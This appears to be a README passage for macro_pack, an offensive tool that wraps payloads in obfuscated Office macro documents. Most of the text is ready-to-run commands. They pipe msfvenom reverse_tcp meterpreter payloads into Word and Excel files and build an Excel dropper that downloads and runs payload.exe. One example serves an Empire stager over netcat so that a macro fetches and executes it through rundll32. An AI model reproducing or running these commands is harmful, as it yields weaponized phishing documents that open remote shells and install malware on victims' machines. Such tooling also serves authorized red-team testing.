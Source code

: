The tool is in python 3 so just start with with your python3 install. ex:
```bash
python3 macro_pack.py  --help
# or
python macro_pack.py --help # if python3 is default install
```
  
If you want to produce a standalone exe using pyinstaller:  
* Install pyinstaller: pip install pyinstaller
* Double-click on the "build.bat" script on a Windows machine.  

The resulted macro\_pack.exe will be inside the **bin** directory.  


## Some examples

### macro\_pack community

- List all supported file formats
```bash
macro_pack.exe --listformats
```

- List all available templates
```bash
macro_pack.exe --listtemplates
```

- Obfuscate the vba file generated by msfvenom and put result in a new vba file.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G meterobf.vba
```

- Obfuscate Empire stager vba file and generate a MS Word document: 
```bash
macro_pack.exe -f empire.vba -o -G myDoc.docm
```

- Generate an MS Excel file containing an obfuscated dropper (download payload.exe and store as dropped.exe)
```bash
echo "https://myurl.url/payload.exe" "dropped.exe" |  macro_pack.exe -o -t DROPPER -G "drop.xlsm" 
```

- Create a word 97 document containing an obfuscated VBA reverse meterpreter payload inside a share folder: 
```bash
msfvenom.bat -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f vba | macro_pack.exe -o -G \\REMOTE-PC\Share\meter.doc   
```

- Download and execute Empire Launcher stager without powershell.exe by using DROPPER_PS template
```bash
# 1 Generate a fiez containing Empire lauchcher 
# 2 Make that file available on web server, ex with netcat:
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat empire_stager.cmd; } | nc -l -p 6666 -q1
# 3 Use macro\_pack  to generate DROPPER_PS payload in Excel file
echo http://10.5.5.12:6543/empire_stager.cmd | macro_pack.exe -o -t DROPPER_PS -G join_the_empire.xls
# 4 When executed on target, the macro will download PowerShdll, run it with rundll32, and download and execute stager.
```
